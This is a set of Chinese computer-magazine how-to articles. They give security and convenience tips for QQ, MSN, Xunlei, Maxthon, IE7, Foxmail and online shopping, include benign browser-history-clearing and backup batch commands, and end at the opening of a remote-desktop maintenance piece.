尽管搜索引擎很方便，但很多时候，我们都希望我们下载的资源能够随时为我们所用。迅雷提供类似的服务，可以将我们下载资源保存在网上，要使用时，随时下载。事实上，借助于迅雷的高速下载，我们可以使我们的下载数据无处不在！
第一步：登录雷友
打开迅雷5，单击左侧下方“雷友信息”中的输入框，输入雷友账号和密码，在打开窗口中输入我们的雷友用户名和密码，同时勾选“自动登录”复选框，单击“登录”按钮。
第二步：下载并收藏资源
接下来，我们可以用迅雷来下载资源。下载完成后，单击其在迅雷5中的“收藏”按钮。此时会弹出相应窗口，我们可以自行设置，将资源保存起来。
第三步：随时下载资源
到了异地，只要从http://www.xunlei.com下载并安装迅雷5。然后登录雷友，之后，单击下方区域的“收藏”标签，然后单击“我的博客”下的某个类别，之后在右侧的窗格中选中我们先前的软件，右击之，选择“下载”。
这样，我们就可以在任何地方都用上自己保存的资源了，相当于一个很好的收藏夹。

## 全面掌握网络安全哲学
◆文/江北书生

## 一、即时通信的安全

### 1. QQ 2008
QQ的流行使得其安全性受到了很大的威胁，不过，它同时也提供了较强的安全性：

- 定期查杀木马
单击QQ左下方的“菜单”按钮，选择“安全中心”→“安全设置”，再在打开窗口中单击“查杀木马”项，在其中可以设置查杀木马的频率和扫描系统漏洞（如图1）。

选择“菜单”→“安全中心”，还有诸如“在线查杀木马”、“申请密码保护”和“举报恶意行为”等项。

- 设置传输文件安全
单击“文件接收安全”项，之后可以设置相应的传输文件的安全级别，进行相应的设置后，传输EXE、BAT、CMD等文件时将会被阻挡。

- 密码和记录安全
我们还可以在图2窗口中单击其他项，来设置密码安全和聊天记录安全。

### 2. MSN/WLM

- 设置文件传输安全
选择“工具”→“选项”，再单击“文件传输”标签，选中“文件传输”下的“使用下列程序进行病毒扫描”，然后设置相应的扫描程序（如图2）。

之后别人向我们传输一些文件时，有可能会提示有不安全因素，但是仍可以传输。因为大蜘蛛会对接收到的文件进行病毒扫描，全面保障安全。
另外，我们还可以选中“自动拒绝传输已知不安全类型的文件”项，这样一些不安全的文件，如EXE、BAT、CMD等，WLM/MSN将无法被接收。

- 设置更多安全选项
选择“工具”→“选项”，再单击“安全”标签，然后在右侧窗口上进行相应设置即可，这些比较简单，笔者不再赘述。

## 二、下载的安全
网络下载的安全问题一直是大家非常头疼的一件事情，但是大家平时又会有多数的时间用在下载上。怎样下载到既安全又好的资源，一直是大家非常关心的事情。

### 1. 从迅雷狗狗下载资源
Google的报告称，现在的恶意软件正在上升。因此，我们在下载资源时，一定要挑选较大，在技术、资金和人才较有实力的大网站下载。小的网站并不会注重可持续发展！对于资源下载，推荐大家去迅雷狗狗http://www.gougou.com下载，因为它在搜索时不仅会将可能发生问题的资源标出，让我们一目了然。而且，迅雷狗狗对于下载页进行了“二次过滤”，即将下载页进行了清毒处理。确保用户在浏览该页面进行下载时不会“中招”！


### 2. 设置好下载安全
从迅雷5.8.3.533开始，迅雷会自动检查下载环境安全，并启用迅雷功能检查及修复功能。我们也可以把鼠标移至主窗口下方“安全下载保护中”区域，单击“下载环境安全检查”，此时会打开相应窗口进行检测，并会弹出如图3所示的状态窗口告诉我们检测后的结果。

当然，我们也可以单击“工具”→“配置”，在打开的窗口中单击“下载安全”项，然后在右侧可以设置下载环境安全检查的频率，可以设置为每次启动、每天扫描、每周扫描和从不扫描（如图4）。

### 3. 配合杀软 斩断病毒
打开迅雷5，选择“工具”→“配置”，打开软件的“配置”对话框，接着切换到“下载安全”选项卡，选中“下载后自动杀毒”复选项。再单击“浏览”按钮，找到相应的杀毒程序（有的需要参数），单击“确定”按钮使其生效。只要我们从互联网上下载完文件后，迅雷就会自动调用这个程序来扫描下载的文件。

> 小贴士
如果觉得迅雷对下载的每个文件都进行病毒扫描太占用时间，则可以通过定制让杀毒软件的病毒扫描程序只对一些如“.exe”、“.com”和“.dll”等高危文件进行病毒扫描，定制方法非常简单。只要同样在上面的对话框中删除一些不需要的扩展名即可。

### 4. 不让无关窗口乱弹 去除电影广告
现在网络上电影多数以RM/RMVB为主，不过，有很多居心叵测、别有用心的人总是在其中插上广告，相信多数人对此深恶痛绝！现在我们在迅雷狗狗中搜索时，凡是夹带有广告的电影也会有相应提示。这样，我们就可在下载前“心中有数”！同时，只要用新版的迅雷5来下载带有广告的RM/RMVB电影，下载后，右击之，选择“查杀影片弹窗广告”命令，即可将其中的广告清除掉。

### 5. 高速批量应用系统漏洞补丁
我们平时用的Windows系统有很多漏洞，因此除了安装杀毒软件和防恶软件外给系统打补丁也成了我们的一门必修课。但可惜的是，Windows本身打补丁速度太慢。这时，我们可以利用迅雷来高速打补丁，保证系统安全。
先从http://www.xunlei.com处下载并安装最新的“迅雷5”，再从http://down.sandai.net/bibei/XLSoftManager.exe处下载并安装“迅雷软件助手”。之后启动迅雷5，我们可以看到“系统漏洞修复”项，单击后会打开迅雷软件助手窗口（如图5），单击“下载并修复”按钮即可快速下载并应用漏洞补丁。完成后，重新启动电脑即可。

## 三、浏览的安全

### 1. Maxthon 2.x.x
在最新版的Maxthon 2.x中，有两个特别实用的安全功能。
- 信赖站点
当我们在访问一些安全需求级别较高的网站时，一般该网站如果是可信赖站点，则地址栏背景切换为绿色，并显示可信赖图标（笔者正在登录交通银行网站，它是可信赖站点），进而让用户知晓，并保障我们的网上交易安全。
- 全面修复安全漏洞
Maxthon 2.x可针对各种未修复的安全漏洞进行全面防范，选择“工具”→“傲游设置中心”，再单击左侧的“安全和隐私”，然后选中“启用傲游安全监控”项，再单击“编辑受信任程序列表…”，在打开窗口即可进行相应程序的网络访问设置。
另外，我们也可以选中“退出时清除浏览记录”项，然后再选中撤销列表、浏览器历史、地址栏下拉列表、搜索栏历史、Feed自动发现历史、Cookies或缓存文件项，退出Maxthon时就会自动清除这些内容。

### 2. The World
世界之窗是继IE浏览器7.0版之后，世界上第二款采用多线程窗口框架的浏览器，从而大幅减少由于某个网页假死导致的整个浏览器假死情况，并且可以在一定程度上提高网页打开速度。同样，它也提供了安全浏览的功能。
- 进行安全浏览
选中“工具”→“高级工具”→“安全浏览”复选项（如图6）。为了更为稳定，可以在世界之窗中选中“工具”→“高级工具”→“优化性能模式”复选项，这样我们在其中浏览网页时会“更好”。
- 设置浏览模式
选择“工具”→“浏览模式”，再选择相应的浏览模式，也可以保证安全。这其中最有效的是“公共场合模式”。因为，在这种模式之后，软件会不显示恢复列表和历史侧边栏，关闭地址栏自动完成功能，并且不保存历史记录、输入过的网址等。

> 小贴士
如果我们既想享受标准模式的便捷，又想得到公共模式的安全，可以选择“隐私浏览模式”，切换到该模式后，不会生成Internet临时文件，不保存历史记录、输入过的网址等，切换到其他模式时会自动删除。

## 四、交易的安全
电子商务如火如荼地发展，同样也引发了网络交易的安全。
1. 使用支付宝
推荐大家使用支付宝，因为“支付宝认证”服务是由支付宝公司与公安部门联合推出的一项身份识别服务。支付宝认证除了核实身份信息以外（包括“支付宝个人实名认证”和“支付宝商家实名认证”），还核实了银行账户等信息。
由于支付宝认证为第三方认证，而不是交易网站本身认证，因而更加可靠和客观；而且由众多知名银行共同参与，更具权威性；除身份信息核实外，增加了银行账户信息核实，极大提高其真实性。更重要的是，只有买家确认后，钱才会被划走，因此比较安全。
2. 使用USB Key
去银行申请网上银行时，不要采用文件证书，而用USB Key硬件证书，这也可以大大提升在线支付安全。
3. 上大站
比较知名网站的结账体验，警惕异常情况。许多知名网站会给您发送订单确认电子邮件和发货确认电子邮件，允许您打印订单确认资料。请警惕那些无须对您输入的内容或订购的物品进行确认的简易网页。
4. 细心观察
如果某个网站出现明显的错别字或拼写错误以及频繁出现的语法错误，则时会“更好”。



### 5. 结账时采用双因素认证
现在越来越多的网站采用了除用户名和密码之外的第二种形式的用户认证方式。新增的认证方式为用户提供了一个动态的一次性密码，用户除了需要输入用户名和密码外，还必须输入这个一次性密码。这防止了不法欺诈者通过简单的用户名和密码就能访问用户的个人账户。

### 6. 查看评论 了解供货商
查看商家的评分情况和其他顾客对该商家的评价，并认真做好警示标记。同时，还应确保您能通过某种方式联系到商家。从“关于我们”部分中尽量找到公司的具体地址。

### 7. 关注订单
除了您的姓名、发货地址、账单地址和信用卡类型、编号及有效期之外，网站不得向您询问其他信息。网上商店也不应该询问顾客的社会保险号（身份证号）或银行电汇编码等“无关信息”。

## 五、电子邮件的安全
虽然通过电子邮件能够帮助我们更为快速便捷地和他人交流信息，但是病毒、垃圾邮件等总会侵害我们，同时我们有可能会把“不该发的信”发出去，或造成泄密。因此，我们也要掌握一些安全电子邮件技巧。

### 1. Outlook Express
Outlook Express用户很多，下面以Outlook Express 6（以下简称为OE 6）为例，进行安全方面的设置。

- (1) 取消立即发送
启动OE 6，选择“工具”→“选项”，然后单击“发送”标签，将其中的“立即发送邮件”复选框取消（如图7），“确定”退出。通过这样设置后，即使OE不幸中毒，病毒也不会立即通过地址簿快速地发出，而是先将带毒邮件放在“收件箱”中，直到单击工具栏上的“发送/接收”按钮后，邮件才会发送出去。如果大家都进行了上述设置，不但可以及时发现病毒，遏制病毒的快速传播，也不用再担心伤害到自己的朋友了。


### 2. Foxmail

- (1) 防止垃圾邮件
目前网络中存在的垃圾邮件无孔不入，当你打开邮箱看到一堆乱七八糟的垃圾邮件时，难免会觉得头痛。为了摆脱这种现状，Foxmail等邮件客户端提供了反垃圾邮件功能，但是收效甚微。事实上，我们可以让Foxmail自行学习，全面提升反垃圾邮件能力。
选择“工具”→“反垃圾邮件功能设置”菜单，打开“反垃圾邮件设置”对话框，切换至“贝叶斯过滤”标签，勾选“使用贝叶斯概率模型判定接收的邮件是否垃圾邮件”复选框，点击“学习”按钮。在弹出的“向导”对话框中点击“浏览”按钮（如图8），选择我们的垃圾箱。点击“下一步”按钮后就可以在“贝叶斯过滤”标签下看到已学习的信息及最后一次更新时间了，以后Foxmail就会按照学习的信息区分垃圾信息。如果Foxmail学习的垃圾邮件信息有误，点击“高级”按钮，在弹出窗口中点击“清除学习记录”按钮进行清除，就可以重新学习了。

- (2) 禁止自动收发邮件
选择“工具”→“选项”，单击“常规”标签，取消“启动时发送和接收邮件”选项和“每XX分钟检查一次新邮件”选项。这样只有按下工具栏上的“接收/传送”按钮时，OE才开始接收或者发送邮件，这就避免了邮件的自动发送。

- (3) 启动内置查杀病毒功能
选择“工具”菜单下“选项”命令，单击“安全”标签，选中“受限站点区域(较安全)”单选按钮，并勾选“当别的应用程序试图用我的名义发送电子邮件时警告我”和“不允许保存或打开可能有病毒的附件”复选框。


- （4）批量删除有问题附件
有很多木马和蠕虫通过电子邮件的附件传输，我们可以通过Foxmail（至少Foxmail 6.5 beta1或以上，推荐Foxmail 6.5 beta2）的批量附件处理功能将其删除。
选择“工具”→“附件管理”命令，即可打开窗口，我们只要选中某个邮箱，其下包含有附件的邮件，包括包含的附件、所在邮件、大小、发件人、发件日期都会显示出来，我们可以选中多个附件，单击下方的“删除附件”将它们删除掉而只留下信件内容。
在Foxmail中只提供了对邮件和地址簿的备份，没有提供对邮件过滤规则的备份。但是在Foxmail的安装目录中有一个名为“Antispam”的文件夹，在该文件夹中一般都有如下的五个文件：
- black.ist——存储着邮件过滤规则中“黑名单”过滤数据；
- white.ist——存储着邮件过滤规则中“白名单”过滤数据；
- corpus.dat——存储着使用贝叶斯过滤学习后产生的数据库文件；
- corpus.idx——存储着使用贝叶斯过滤学习后产生的数据库索引文件；
- uniword.txt——存储着邮件过滤规则中可能被认为是垃圾邮件的过滤关键词。
备份Foxmail的邮件过滤规则只需将该文件夹直接备份到一个安全的地方就可以了。要还原Foxmail的邮件规则，我们只需将以前备份的“Antispam”文件夹拷贝回原来的目录进行覆盖即可。

## ## IE7 Internet选项有妙用
今年的浏览器市场注定是不平常的，IE 8的推出速度总令人不满意，这时不仅火狐夺取了很多市场份额，现在Google Chrome也要进来分一杯羹！当然，不管如何，大家使用Windows冲浪时，Internet Explorer肯定是少不了的。同时，IE也在不断地推陈出新，其目前最高版本是8.0 beta2。用得最多的是IE 7/6，笔者在使用IE 7的“Internet 选项”设置功能时发现了它的很强大的功能，整理成文，与大家共享。
◆文/江北书生

### ## 1. 一次设置多个首页
是不是经常会因为将哪一个网站首页设置为首页而头疼？IE6中我们只能将主页设置为一个网站，现在不用这么麻烦了，因为它可以设置多个首页。
在IE中选择“工具”→“Internet选项”命令，在“常规”标签中的主页中输入多行首页，每行用回车键分隔（如图1）。之后，我们打开IE，则会自动打开多个首页。同时，我们还可以单击“主页”按钮，从中选择相应的首页自己打开。


### ## 2. 设置默认网络程序
现在由于开源的盛行，网络程序往往有很多，但是我们最爱的只有一个，这时我们必须将其设置为默认的网络程序，使其更好地为我们所用。
- (1) 设置默认浏览器
在“Internet 选项”窗口中单击“程序”标签，我们可以看到“默认的Web浏览器”下“设为默认值”，单击之即可让IE7成为默认浏览器。同时，我们还可以选中下方的“如果Internet Explorer不是默认的Web浏览器，提示我”复选框。当IE7再次启动时，不是默认浏览器，则会弹出窗口提示我们是否将其设置为默认浏览器。

### ### (2) 设置默认编辑器
我们还可以设置默认的HTML编辑器，如Microsoft Office Word、Microsoft Office Excel、EmEditor、记事本等（视机器中安装的相应程序而定，也可能会出现DreamWeaver等程序）。

### ### (3) 设置默认电子邮件程序
我们也可以设置默认电子邮件程序，这样我们在网上单击相应的电子邮件地址时，则会自动弹出我们设置好的电子邮件程序来撰写邮件。
单击“程序”标签下方“设置程序”按钮，在打开窗口中单击“设置默认程序”，再在打开的窗口中选中相应的程序，如Windows Mail，单击下方的“选择此程序的默认值”按钮（如图2），再在打开窗口中即可设置相应的默认程序。


### ## 3. 斩除插件 管理加载项
现在网络上的恶意插件横行，在浏览网页的时候，一不小心浏览器就会被强行安装一些插件，由于一些插件运行不稳定，可能会使浏览器不能够正常运行，出现打开浏览器出现非法操作，或是无法打开的现象。不过，IE 7.0中安全性得到了进一步加强，除了具有反钓鱼、管理ActiveX等功能外，还允许我们管理加载项，无须任何软件，让浏览器快速修复，使其能够重新正常运行。
在“Internet 选项”窗口中单击“程序”标签，再单击“管理加载项”命令，即可在打开窗口中对IE中的加载项进行管理，如果觉得哪一个不太好，就可以禁止掉。

> **小提示：**
如果由于插件等原因，连IE都启动不了，可以右击桌面上的IE图标，然后在弹出菜单中选择“在没有加载项的情况下启动”菜单项启动之，然后再进行上述操作。

### ## 4. 删除掉自动保存密码 保障系统安全
很多时候，IE会记下我们经过的网站，并会在我们输入地址时自动匹配，这样方便了我们，但是却带来了隐私的泄露。不过，我们完全可以在“Internet 选项”窗口中单击“内容”标签，再单击“自动完成”后的“设置”按钮。在打开的窗口中我们可以选中欲清除的项目，再单击下方的“确定”按钮即可（如图3）。

### ## 5. 设置RSS更新频率和声音通知
我们都知道，在IE 7.0中提供了RSS的支持，这下子查看RSS列表时，再也不用看到一大堆难懂的代码了，取而代之的是完全标准的RSS阅读界面。不过，默认情况下，它并不会自动更新，而且遇到RSS列表时也不会用声音通知我们。但这种情况完全可以改变，我们要做的只是简单设置。在“Internet 选项”窗口中单击“内容”标签，再单击“源”后的“设置”按钮，选中“自动检查源的更新”，再设置相应的更新频率。同时，我们还可以选中“找到网页源时播放声音”复选框。以后在IE 7.0发现RSS列表时自动发声提示用户，而且会按我们设置的频率来自动更新内容。

### ## 6. 真正启用IE7的保护模式
IE7.0对安全作了很大增强，但大家会发现这样的问题，虽然在IE选项中设置了启用保护模式，但在浏览网页时，状态栏中总是会显示“保护模式：禁用”的提示信息，如何解决这个问题？事实上，IE7在默认设置下，对受信任的站点是不开启实时保护的。为了防止病毒软件自动把含有病毒的网站添加到受信任的站点，我们可以强行打开IE7的安全模式。打开“Internet选项”对话框，切换到“安全”标签页，在安全区域列表框中选择“可信站点”，再在下方勾选“启用保护模式”复选框（如图4），重新启动IE后应该就可以生效了。

> 如果你禁用了UAC，那么还需要打开“系统配置/工具”对话框，选择“启用UAC”，然后单击右下角的“启动”按钮，重启系统后即可生效。

### ## 7. 给危险网站上紧箍 让上网多一份安全
不可否认，Internet 时代已经到来！上网浏览网站获取资料、收发邮件、用QQ或ICQ与他人即时通讯已经不再是什么新鲜的事情了，而成为人们平时生活中不可缺少的社会活动。但是，现在网上有很多黑客、木马，使得我们防不胜防，非常头疼！不过，对于一些网站，我们完全可以使用“更紧”的策略，使其更为安全。打开“Internet选项”对话框，切换到“安全”标签页，在安全区域列表框中选择“受限站点”，再在下方设置“安全级别”为“高”。再单击“站点”按钮，在打开窗口中添加相应的危险网站即可。

### ## 8. 让IE不再打开太多的窗口
默认情况下，我们单击一个链接，会打开一个窗口，这样一来，任务栏上就会堆满很多的窗口，弄得很乱。不过，我们可以通过修改设置来让IE用标签来代替窗口。打开“Internet选项”对话框，单击“常规”标签下“选项卡”后的“设置”按钮，在打开的窗口中选择“由Internet Explorer决定如何打开弹出窗口”项，单击“确定”按钮（如图5）。


### ## 9. 管理搜索引擎
虽然IE7默认使用的搜索引擎是Windows Live Search，不过，用户可根据自己的喜好来定制其他搜索提供商。大家要做的就是打开“Internet选项”对话框，单击“常规”标签下“搜索”后的“设置”按钮，在打开窗口中进行设置，如删除、设置默认值等，也可以单击下方的“查找更多提供程序”链接来添加搜索引擎。

### ## 10. 有选择性地清除相应隐私内容
无论是出于保证计算机性能还是数据安全方面的考虑，我们常常需要及时清除浏览器的历史记录，包括浏览器缓存、所记录的Cookies、历史记录、密码等。一般而言，相应的操作是通过“Internet 选项”之“常规选项卡”中的“删除浏览历史记录”进行的，但这样的操作需多个步骤，显然效率不足。事实上，我们除了按部就班地打开设置窗口来进行设置外，还可以通过命令行来控制Internet选项，有选择性地清除相应隐私内容。

```
清除Internet临时文件
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 8
清除Cookies
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 2
清除历史记录
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 1
清除表单数据
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 16
清除密码
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 32
清除上述全部项目
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 255
清除上述全部项目，以及IE7中使用的加载项所保存的各种数据
RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 4351
```
如果需要经常进行类似的操作，不妨考虑直接为相应操作建立桌面快捷方式，需要时只要双击即可。

如何在信息时代把握潮流？获取信息的手段是关键。因为视时间和信息为金钱的你，面对铺天盖地的信息，根本不可能一一浏览。因为你不可能有足够的时间上网查找你需要的信息，而要忙于其他的事务。事实上，现在很多时候我们并不需要人为地去浏览，只要作一些设置，就可以让我们需要的信息自动上门。由于这些信息是我们主动索取的，所以是完全符合我们需要的，不会出现一些垃圾信息。

## 信息爆炸时代 有效获取

## ——快速获取最新资讯的8个好手段

◆文/江北书生

### 一、使用RSS

RSS技术，即简易信息聚合技术（RSS: Really Simple Syndication），它可以让我们不再花费大量的时间冲浪或在新闻网站上苦苦搜寻，并忍受无所不在的广告的干扰，从而更为专心地获取自己需要的内容。当然，RSS的工具有很多。不过，我们本着尽量少安装软件的原则。可以用我们的Maxthon浏览器和Foxmail邮件收发工具来阅读RSS。

### 1.Maxthon读RSS

第一步：添加RSS
只要使用的是Maxthon，安装后，只要发现在网页上有RSS源时，也可以单击“添加此 Feed 到傲游浏览器‘我的订阅’侧边栏”链接，再选择相应的分类，最后将其添加到列表中（如图1）。



第二步：阅读RSS
之后，我们单击Maxthon2.0工具栏上的五角星，之后会打开其侧边栏。我们单击RSS Feed按钮即可打开其内置的RSS功能。之后，单击相应的RSS源，单击下方的链接即可打开查看相应的信息窗口了，这些信息是最新的，非常方便。

第三步：上传RSS
现在云计算很流行，我们如果能够将RSS列表保存到服务器上则在哪里都可以看到RSS列表内容。事实上，我们只要下载并安装Maxthon 2.x版本。启动之，在打开如图2所示窗口中选择第二项“使用我自己的账户启动”，这样所有的设置将保存在服务器上。如果没有账户，请自行注册。



接着，选择“文件”→“用户数据上传下载”，之后，选中所有的选项，再单击“上传”可将设置上传至服务器。

第四步：下载RSS
我们在异地出差时，下载并安装Maxthon 2.x，双击其中的maxthon.exe，再选择“使用我自己的账户启动”，输入用户名和密码。之后，选择“文件”→“用户数据上传下载”，之后，选中所有的选项，再单击“下载”即可保证使用最新的数据。
接下来，可以按前面所示的办法来阅读RSS。

### 2.Foxmail读RSS

Foxmail平时用得较多，我们可以在收发邮件的同时阅读自己想要的RSS信息。
第一步：查看已有RSS列表
只要在Foxmail 6.0主窗口中单击“RSS”即可查看RSS列表内容。

第二步：自行添加RSS项
单击RSS菜单可以发现“新建频道”和“新建频道群组”命令来新建频道或新建频道群组。而选中“新建频道群组”命令，在打开如图3所示窗口中还可以选择从OPML文件导入，这样就可以导入其他阅读器导出的OPML文件了，大大方便了我们。

第三步：设置更新频率
RSS一个非常好的特性就是能够定时自动更新，并把好的内容“推”给用户。右击一频道，选择“属性”命令，再在打开窗口中单击“设置”标签可以对当前频道进行一些设置。

第四步：随时处理RSS信息



Foxmail和RSS有很好的结合，当在RSS阅读时，单击工具栏上的“转发”按钮可以很方便地将文章信息通过邮件转发给其他人分享，这是一个非常好的特色功能。

### 二、订阅邮件列表

邮件列表（newsletter）是一个非常有效的手段，现在很多网站都提供邮件列表订阅。以希网为例，登录http://www.cn99.com/，找到相应类别下的感兴趣内容。单击“订阅”按钮，之后订阅信箱中会收到一封确认信，按确认信中的内容去做就可以成功订阅邮件列表（一般只要直接回复这封信就可以了），这样一旦该网站有什么消息，就会发送到你的邮箱中，你只要每天记得收信就行了。关于如何实时获得这些信件内容，我们会在后面介绍。

### 三、订阅百度新闻

运行IE，在地址栏中输入http://newsalert.baidu.com/na?cmd=0后回车，打开“百度邮件新闻订阅”页面，在关键词一栏中输入相应的关键词，在“关键词位置”中最好设置为“新闻全文”，这样设置的好处在于不容易漏掉新闻，然后在邮件地址栏中输入一个你常用的、真实有效的E-mail地址，最后设置“发送时间”（如图4）。设置完毕后，单击“确定订阅”。


### 四、订阅Google Alert

在IE中打开http://www.google.com/alerts，做如下设置：在“搜索字词”一栏中输入相应的关键字，“类型”设置为“新闻”，“频率”一栏中，Google Alerts只有三个可选方式，推荐大家选择“出现新结果时”，接下来在“您的电子邮件”中输入E-mail，最后点击“创建快讯”按钮完成设置。

> ★当你订阅一些网站的新闻或邮件时，尤其是订阅国外一些站点的新闻邮件，最好用Hotmail信箱。国内的一些免费邮箱往往会出现收不到邮件的情况。

### 五、不要忘记订阅新闻组

获得新闻是用户经常使用Internet的原因之一，新闻组主要的目的在于讨论某一话题，而现在互联网上又有成千上万个新闻组，而且每个新闻组都有一个特殊主题。这样我们就可以在第一时间里得到自己感兴趣的消息。通过Outlook Express可以进行订阅。

**附录：国内外著名新闻组地址**

- 新帆新闻组：news.newfan.net
- 中新新闻组：www.zhnews.net
- 希网新闻组：news.cn99.com
- 宁波新闻组：news.cnool.net
- 奔腾新闻组：news.bentium.com
- Google新闻组：groups.google.com
- Newzone新闻组：newsone.net
- Realplayer新闻组：www.usenet-replayer.com

### 六、重要邮件到达通知

我们订阅了那么多重要的邮件列表，那怎样保证它能够第一时间被我们知道？我们要借助于POP Peeper，有了它就可以在第一时间得知重要的邮件内容了。从网上下载POP Peeper最新版，再从http://www.poppeeper.com/languages.php处下载简体中文语言包（Chinese (Simplified)），再将Chinese.plf拷贝到POP Peeper安装文件夹下，在启动时选择语言包为简体中文即可出现熟悉的界面。

之后，可以单击“账号”→“添加”，然后选择“添加单个账号”（如图5），之后在“Email 地址”中输入邮箱账户，单击“下一步”按钮打开窗口中选择“服务器类型”，一般为POP3。接着输入密码和收件服务器地址，顺着向导，完成账户的建立。



接下来，我们单击“选项”→“设置选项”，再单击“自动检查”项，然后在打开如图6所示窗口中设置邮件检测间隔时间，一般设置在5、6分钟。单击“提醒”项，设置“当收到新邮件时”为“显示桌面提醒”。



由于我们设置了定时检查，当有新邮件到达时，POP Peeper会弹出一个窗口来提醒我们。单击Open POPPeeper则会弹出窗口，其中会有它检测到的邮件。

### 七、用Excel来自动搜集信息

打开Excel 2003，新建一个文件，然后选择“数据→导入外部数据→新建Web查询”，打开窗口，在“地址”栏中输入你要打开的网站。从中选择自己需要的信息，单击选中它（被选中的部分会有相应显示），完成后单击“导入”按钮即可把它导入到Excel XP表格中。

选中相应数据区域，再选择“数据→导入外部数据→数据区域属性”，打开“外部数据区域属性”窗口。选中“允许后台刷新”和“打开工作簿时，自动刷新”复选框，再选中“刷新频率”复选框，再设置相应的时间间隔（如图7）。


按上面的方法，再导入其他网站感兴趣的信息，最后保存好此文件，并把它拖放到“开始→程序→启动”组中，以后，一开机，该表格会自动打开，且会自动从网上获取多个网站的信息，而且只要工作簿不关闭，每隔一定时间还会自动从网站更新数据，是不是很酷？

### 八、PPLive等订阅网络视频

选择“工具”→“定时服务”→“节目预订”，之后输入PPLive账户和密码，即可去预订节目，到了指定的时间就会提醒我们开始播放。

> ★双击某个邮件即可看到其内容，当然，我们也可以单击Subject（主题）按钮把邮件按邮件主题来把邮件排列（现在很多垃圾邮件都会使用相同的主题），先选中第一个垃圾邮件，再按下Shift键，单击最后一个，选中它们，按下Del键，会弹出确认删除窗口，单击Yes（是）按钮即可删除掉这些垃圾邮件。
> ★打开“注册表编辑器”，定位到[HKEY_CURRENT_USER\Software\POP Peeper]，把它导出为一REG文件，以后重新安装系统和POP Peeper后，只要直接双击并导入此REG文件即可恢复POP Peeper中的设置。

Foxmail是大家平时用得很多的电子邮件客户端程序，但是它默认安装后只有一些简单的图标和模板，而且也没有账户信息，需要重新设置。对于经常重新安装系统的我们来说，是一个非常麻烦的事情。不过，我们完全可以自行设置，制作出一个属于自己的、更为丰富多彩的Foxmail。

## 打造自己的多模板多图标的Foxmail

◆文/江北书生

### 设置Foxmail

- 1. 下载/安装Foxmail
- 2. 设置账户
- 3. 设置邮件规则


> 小知识：什么是过滤器？
> Foxmail的“邮件过滤器”可帮助用户完成一系列的自动操作，其原理和OE中的邮件规则差不多。单击“账户”→“过滤器”，会打开“过滤器管理器”，你可以根据需要，设置相应判断条件，和对应实施的动作。
> 要创建新的过滤器，可单击“新建”按钮，窗口右边即出现了过滤器的设置选项，它由两个大的部分组成，分别是条件和动作。也就是说经过此设置以后，过滤器就会自动地将满足某些条件的邮件执行相应的动作。过滤器的作用非常强大，本文只是它的一个应用而已。

### 4. 设置邮件模板 批量自动签名

经常要给朋友发E-mail？如果每个邮件中都有一个精美的签名文件，文件中包括姓名、公司、通讯地址、邮政编码以及电话、手机、QQ号码等联系方式，而且在每次建立邮件时就可以自动插入签名，这样既可以节省反复输入个人相关信息（如：祝福的话、联系电话等），而且还能够充分展现你的风采，岂不很美？有幸的是，要制作出这样的签名并不太难。

- 第一步：新建模板
  在Foxmail的主窗口中选择“工具”→“邮件编写信纸管理”，打开“信纸管理”窗口，然后选择“新建”→“新建HTML模板”命令，然后将其重新命名为“带签名模板”（如图2）。
- 第二步：添加图片和文字
  单击右侧窗格中工具栏上的“插入图片”按钮，然后添加相应的图片文件，再在下方写上相应的信息，再单击工具栏上的“保存”按钮保存此模板。
- 第三步：使用信纸
  右击账户，选择“属性”，再在打开的窗口中单击“信纸”，再选中“新邮件格式”为HTML，然后单击下方的“HTML格式邮件”旁边的“浏览”按钮，再选先前的“带签名模板”即可。
  以后单击Foxmail主窗口工具栏上的“编写”按钮，即可使用“带签名模板”来编写邮件。


### 5. 用上更多图标

打开D:\foxmail\Faces，可以看到一些小图标，我们可以自行从网上下载一些放到这里。这样我们就可以在撰写邮件时添加自己的个性图标。笔者将QQ安装文件夹下Face2文件夹下的所有图标都放到其中了。

> 可以从http://www.twocity.cn/sc/、http://www.mysucaiku.com/或http://www.dabaoku.com/gif/上下载更多可爱图标。

### 导出Foxmail设置

按下Win+R键，输入regedit启动“注册表编辑器”，定位到[HKEY_CURRENT_USER\Software\Aerofox\Foxmail]和[HKEY_LOCAL_MACHINE\SOFTWARE\Tencent\Foxmail]下，分别将其导出为setting1.reg和setting2.reg。

### 打包自己的Foxmail

在D盘上新建一个名为foxinst文件夹，将C:\Program Files\WinRAR下的rar.exe、rarreg.key和我们导出的setting1.reg和setting2.reg复制到其下。

```
在其下编写一个名为update.cmd的批处理文件，内容如下：

RAR a -r -x*.ind -x*.box foxmail.rar "d:\foxmail"

双击此文件，可以获得foxmail.rar。
```

### 使用自己的Foxmail

在其下再编写一名为instfox.cmd的批处理文件，内容如下：

```
rar.exe x -r -O+ -EP2 -p- -y -inul -ibck foxmail.rar "d:\"
regedit /s setting1.reg
regedit /s setting2.reg

以后系统重新安装，直接双击D:\foxinst文件夹下的instfox.cmd即可完成Foxmail的安装，而且安装完成后可以用上自己的过滤器、模板和图标，更重要的是，邮件没有被包括其中，这样也在一定程度上避免了邮件的泄密！
```

## 坐在办公室里当指手

办公室的电脑又出问题了，今天是小武第N次去维护系统了，真是麻烦！如果不去维护同事们肯定不高兴，可是每次维护电脑都要耽误几个小时，可是小武手中有很多活，怎么办？为了在帮助同事们维护电脑的同时不耽误自己手头的工作，小武决定使用远程维护功能，这样就可以坐在办公室内给同事们进行远程维护了。

### 一、维护电脑，我用远程

最近四楼办公室MM的电脑出现了问题，于是小武决定先为MM的电脑进行远程维护。远程维护时小武选择了Windows Xp自带的“远程桌面连接”程序，这个程序操作方便，通过该软件可以在自己电脑桌面上访问对方电脑的Windows窗口，并且可以像运行自己电脑中的文件一样，随意打开该电脑中的程序、文件。

#### 1.开启远程桌面连接

